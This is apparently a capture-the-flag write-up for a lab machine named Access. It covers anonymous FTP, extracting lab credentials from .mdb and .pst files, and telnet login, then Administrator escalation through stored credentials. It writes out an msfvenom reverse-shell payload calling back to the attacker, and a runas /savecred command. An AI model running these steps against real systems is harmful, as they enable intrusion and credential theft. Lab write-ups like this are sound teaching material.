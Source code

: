 # Access

<figure><img src="../../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

Running the full port scan, I found that ports 21, 23 and 80 were open.&#x20;

### (21) FTP

FTP is configured to allow anonymous login and I found `backup.mdb`&#x20;

To obtain the .mdb file, I changed the FTP transfer mode to binary using the command `bin` and downloaded the file using `get backup.mdb`

<figure><img src="../../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

I was able to view the tables using `mdb-tables backup.mdb`

The `auth_user` table caught my attention.

Using `mdb-export backup.mdb auth_user`, I found the following credentials.&#x20;

<figure><img src="../../.gitbook/assets/image (67).png" alt=""><figcaption></figcaption></figure>

Furthermore, I found `Access Control.zip` in the FTP server.&#x20;

Trying to unzip the file, I obtained `unsupported compression method 99`. Searching online for solution, I decided to use `7z` to unzip the folder.

Using the command `7z x Access\ Control.zip`, I found that it requires a password to unzip.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Trying the password obtained from `auth_user` table (access4u@security), I managed to successfully unzip the folder.

<figure><img src="../../.gitbook/assets/image (93).png" alt=""><figcaption></figcaption></figure>

A file named `Access Control.pst` was being extracted. To view the contents of a `.pst` file, I used the command `readpst 'Access Control.pst`

Opening the email up, I found the credentials: `security:4Cc3ssC0ntr0ller`

<figure><img src="../../.gitbook/assets/image (82).png" alt=""><figcaption></figcaption></figure>

### (23) Telnet

I managed to login using the credentials `security:4Cc3ssC0ntr0ller`

Found the user flag

<figure><img src="../../.gitbook/assets/image (95).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation

To show the currently stored credentials, use the command `cmdkey /list`

I obtained the following:

```
Target: Domain:interactive=ACCESS\\Administrator
                                                Type: Domain Password
User: ACCESS\\Administrator
```

It means that the Administrator credentials were stored in the target which allows the attackers to run commands impersonating the Administrator.

I generated a reverse shell payload using `msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f exe -o reverse.exe`&#x20;

Transferred from kali to victim (`copy \10.10.14.6\share\reverse.exe reverse.exe`)

Run the reverse.exe as administrator using `runas /savecred /user:ACCESS\Administrator reverse.exe`

And I obtained a shell as the administrator.

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

